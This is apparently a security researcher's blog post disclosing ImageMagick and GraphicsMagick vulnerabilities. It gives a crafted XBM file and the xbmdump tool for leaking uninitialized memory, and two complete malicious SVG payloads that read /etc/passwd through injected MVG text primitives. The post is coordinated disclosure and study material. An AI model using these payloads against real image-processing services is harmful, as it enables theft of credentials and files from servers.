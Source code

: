 # Security of Data processing libraries Part 2 - Exploitation


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Bleed attacks

Bleed vulnerabilities have typically been out-of-bounds reads, but those one are the use of uninitialized memory. An uninitialized image decode buffer is used as the basis for an image rendered back to the client. This leaks server side memory. This type of vulnerability is fairly stealthy compared to an out-of-bounds read because the server will never crash. However, the leaked secrets will be limited to those present in freed heap chunks. More detailes can be found at blog post [bleed continues: 18 byte file, $14k bounty, for leaking private Yahoo! Mail images](https://scarybeastsecurity.blogspot.com/2017/05/bleed-continues-18-byte-file-14k-bounty.html) and [exploit for ImageMagick's uninitialized memory disclosure in gif coder](https://github.com/neex/gifoeb)


# ImageMagick memory leak at XBM coder

ReadXBMImage in coders/xbm.c in ImageMagick before [7.0.8-9](https://github.com/ImageMagick/ImageMagick/commit/216d117f05bff87b9dc4db55a1b1fadb38bcb786) leaves data uninitialized when processing an XBM file that has a negative pixel value. 
If the affected code is used as a library loaded into a process that includes sensitive information, that information sometimes can be leaked via the image data. 
Exploit for ImageMagick's uninitialized memory disclosure in xbm coder.  
Auto-generation tool is [xbmdump](https://github.com/d0ge/xbmdump)

### Sample image

```text
#define -_width 16
#define -_height 16
static char -_bits[] = {
  0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, };
```

How to use:

```bash
xbmdump gen 128x128 dump.xbm
```

# Arbitary file read at TranslateTextEx GraphicsMagick 

Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. Malicious user can get access to the local file content.
To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```

Exploit inject custom TextPrimitive inside ImagePrimitive at MVG coder. SVG coder when reads xlink:href attribute do not properly escape ' and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file.

Malicious user can exploit this vulnerability at image attributes generation process for SVG coder too. 
Attributes generation process at some of the images such as SVG have issue that may allow malicious user read any local file contents.

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" 
	x="0" y="0" height="137px" width="137px"/></svg>
```

Function `SetImageAttribute(Image *image,const char *key,const char *value)` do not properly translate comments and label for this image that allow attacker to get file contents when image attributes will be written for image formats like JPEG and GIF. To reproduce vulnerability convert image:
```bash
gm convert exploit.svg output.gif
```
```bash
gm convert exploit.svg output.jpeg
```
Image attributes (comments section) will contains file contents.

# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 

